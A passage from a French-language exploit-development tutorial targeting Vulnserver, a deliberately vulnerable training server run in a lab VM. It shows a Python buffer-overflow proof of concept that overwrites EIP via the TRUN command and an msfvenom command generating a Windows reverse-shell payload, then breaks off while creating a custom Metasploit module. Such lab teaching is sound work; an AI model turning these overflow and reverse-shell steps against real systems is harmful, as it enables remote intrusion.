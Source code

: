 Télécharger `vulnserver.exe` : [http://www.greyhathacker.net/?page\_id=22](http://www.greyhathacker.net/?page_id=22)

Lancez-le sur la VM Windows, port 9999.

---

## 3. Analyse du POC de base

Voici un extrait du POC en Python :

```python
buffer = "A" * 2003 + "B" * 4 + "C" * (3000-2007)
s = socket.socket()
s.connect(("192.168.56.101", 9999))
s.send("TRUN /.:/" + buffer)
```

### Explication :

* `A * 2003` : remplit le buffer jusqu’à l’EIP (instruction pointer)
* `B * 4` : écrase EIP (on peut y mettre l’adresse du shellcode)
* `C * …` : padding après l’EIP

> Notre but est de remplacer le `"B" * 4` par l’adresse du shellcode, et injecter le shellcode au début du buffer.

---

## 4. Générer le shellcode avec msfvenom

### 🎯 Objectif : reverse shell Windows (via port 4444)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f c -b "\x00"
```

* `-b "\x00"` : on exclut les octets interdits (`null bytes`)
* `-f c` : format C compatible avec un buffer

Copiez le shellcode généré (commence par `unsigned char buf[] = ...`)

---

## 5. Créer un module Metasploit personnalisé

### 📁 Arborescence

```bash
mkdir -p ~/.msf4/modules/exploits/windows/vulnserver
cd ~/.msf4/modules/exploits/windows/vulnserver
nano vulnserver_trun.rb
```

### 📜 Contenu du module :
